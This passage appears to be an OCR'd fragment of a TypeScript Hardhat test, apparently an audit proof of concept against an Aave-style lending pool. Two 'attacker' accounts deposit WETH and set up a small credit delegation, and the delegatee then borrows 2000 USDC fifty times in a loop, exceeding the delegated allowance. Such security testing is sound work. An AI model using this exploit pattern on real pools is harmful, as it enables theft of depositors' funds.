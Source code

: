 ```typescript
      .approve(pool.address, APPROVAL_AMOUNT_LENDING_POOL);

    await pool
      .connect(attackerAddress0.signer)
      .deposit(
        weth.address,
        0,
        ethers.utils.parseEther("10"),
        attackerAddress0.address,
        "0"
      );

    await weth
      .connect(attackerAddress1.signer)
      .mint(await convertToCurrencyDecimals(weth.address, "10"));

    await weth
      .connect(attackerAddress1.signer)
      .approve(pool.address, APPROVAL_AMOUNT_LENDING_POOL);

    await pool
      .connect(attackerAddress1.signer)
      .deposit(
        weth.address,
        0,
        ethers.utils.parseEther("10"),
        attackerAddress1.address,
        "0"
      );

    await debtToken
      .connect(attackerAddress1.signer)
      .approveDelegation(
        attackerAddress0.address,
        ethers.utils.parseEther("1")
      );

    for (var i = 0; i < 50; i++) {
      await pool
        .connect(attackerAddress0.signer)
        .borrow(
          usdc.address,
          0,
          await convertToCurrencyDecimals(usdc.address, "2000"),
          AAVE_REFERRAL,
          attackerAddress1.address
        );
    }
    var usdcBalance = await usdc.balanceOf(attackerAddress0.address);
    console.log(
      "attacker balance: ",
      await convertToCurrencyUnits(usdc.address, usdcBalance.toString())
    );
  });
});
```

